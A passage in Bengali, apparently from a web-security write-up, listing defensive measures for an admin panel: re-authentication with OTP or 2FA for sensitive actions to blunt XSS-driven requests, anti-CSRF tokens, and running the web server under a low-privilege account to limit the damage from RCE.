2. **গুরুত্বপূর্ণ অপারেশনের জন্য রি-অথেন্টিকেশন (Re-Authentication):** অ্যাডমিন প্যানেলে কোনো গুরুত্বপূর্ণ কাজ (যেমন: ফাইল আপলোড, সিস্টেম ডায়াগনস্টিক, পাসওয়ার্ড চেঞ্জ বা ব্যাকআপ নেওয়া) করার আগে ওয়ান-টাইম পাসওয়ার্ড (OTP/2FA) বা পুনরায় পাসওয়ার্ড টাইপ করা বাধ্যতামূলক করতে হবে। এর ফলে XSS ব্যাকগ্রাউন্ডে রিকোয়েস্ট পাঠালেও পাসওয়ার্ড বা ওটিপি না থাকায় সার্ভার তা রিজেক্ট করে দেবে।
3. **অ্যান্টি-সিএসআরএফ টোকেন (Anti-CSRF Tokens):** প্রতিটি স্টেট-চেইঞ্জিং রিকোয়েস্টের সাথে ইউনিক এবং আনপ্রেডিক্টেবল ক্রিপ্টোগ্রাফিক টোকেন ভ্যালিডেশন নিশ্চিত করতে হবে।
4. **লিস্ট প্রিভিলেজ প্রিন্সিপাল:** ওয়েব সার্ভারকে অপারেটিং সিস্টেমের রুট (Root) পারমিশন না দিয়ে অত্যন্ত সীমিত পারমিশন যুক্ত ইউজার অ্যাকাউন্টের (যেমন: `www-data`) অধীনে রান করানো উচিত, যেন RCE হলেও হ্যাকার পুরো ওএস-এর ক্ষতি করতে না পারে।